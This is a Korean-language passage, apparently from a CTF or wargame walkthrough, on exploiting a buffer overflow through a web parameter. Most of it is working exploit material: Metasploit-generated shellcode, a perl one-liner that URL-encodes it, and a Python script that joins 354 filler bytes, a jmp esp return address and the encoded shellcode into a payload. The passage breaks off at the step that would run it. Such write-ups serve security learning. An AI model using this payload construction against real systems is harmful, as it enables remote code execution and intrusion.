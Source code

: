 * 메타스플로잇이 기계어를 만들어줌
* `'-b \x00'`: Bad Character는 `\x00`으로 이를 넣지 말아달라는 옵션
* **generate -b ~~~**: 기계어를 만들고 `/tmp/payload.txt`에 보내달라는 뜻

### 3. payload.txt 확인

```bash
root@ming:~# cat /tmp/payload.txt 
TX-���--P\%%-u0}--P-�t+--P�%�--P-gl�
                                                                              --P-�$`--P-�w}--P-gX--P-�6��--P-9��~--P-�!}--P-�X--P
```

### 4. 웹으로 데이터 전달하기

```bash
root@ming:~# { echo -n \'; cat /tmp/payload.txt; echo -n \'; } | perl -pe's/(.)/sprintf("%%%02x", ord($1))/seg'
%27%54%58%2d%05%fd%fd%fd%2d%01%01%01%01%2d%01%01%01%01%50%5c%25%01%01%01%01%25%02%02%02%02%2d%75%1c%30%7d%2d%01%01%01%01%2d%01%01%01%01%50%2d%14%df%74%2b%2d%01%01%01%01%2d%01%01%01%01%50%2d%08%90%25%e1%2d%01%01%01%01%2d%01%01%01%01%50%2d%67%6c%fe%0b%2d%01%01%01%01%2d%01%01%01%01%50%2d%ac%15%24%60%2d%01%01%01%01%2d%01%01%01%01%50%2d%e7%77%7d%1a%2d%01%01%01%01%2d%01%01%01%01%50%2d%67%04%58%7f%2d%01%01%01%01%2d%01%01%01%01%50%2d%96%36%ba%f7%2d%01%01%01%01%2d%01%01%01%01%50%2d%39%ca%e7%7e%2d%01%01%01%01%2d%01%01%01%01%50%2d%92%0e%21%7d%2d%01%01%01%01%2d%01%01%01%01%50%2d%07%e6%58%0e%2d%01%01%01%01%2d%01%01%01%01%50%27
```

### 5. test.py 작성

```python
dummy = '%41' * 354
jmpesp = '%8f%92%04%08'
shellcode = '%27%54%58%2d%05%fd%fd%fd%2d%01%01%01%01%2d%01%01%01%01%50%5c%25%01%01%01%01%25%02%02%02%02%2d%75%1c%30%7d%2d%01%01%01%01%2d%01%01%01%01%50%2d%14%df%74%2b%2d%01%01%01%01%2d%01%01%01%01%50%2d%08%90%25%e1%2d%01%01%01%01%2d%01%01%01%01%50%2d%67%6c%fe%0b%2d%01%01%01%01%2d%01%01%01%01%50%2d%ac%15%24%60%2d%01%01%01%01%2d%01%01%01%01%50%2d%e7%77%7d%1a%2d%01%01%01%01%2d%01%01%01%01%50%2d%67%04%58%7f%2d%01%01%01%01%2d%01%01%01%01%50%2d%96%36%ba%f7%2d%01%01%01%01%2d%01%01%01%01%50%2d%39%ca%e7%7e%2d%01%01%01%01%2d%01%01%01%01%50%2d%92%0e%21%7d%2d%01%01%01%01%2d%01%01%01%01%50%2d%07%e6%58%0e%2d%01%01%01%01%2d%01%01%01%01%50%27'

payload = shellcode[:3] + dummy + jmpesp + shellcode[3:]

print payload
```

* `%41` * 354: a를 354개 넣어라, 문제에서 354라 힌트를 줌
* `shellcode[:3]`: `%27`
* `dummy`: a 354개
* `jmpesp`: return
* `shellcode[3:]` : `%54` ~ `%27`
* `payload = shellcode[:3] + dummy + jmpesp + shellcode[3:]`에서  **shellcode[:3](%27)**을 앞에 두는 이유는 `%27`이 `"`이기 때문

### 6. test.py 실행
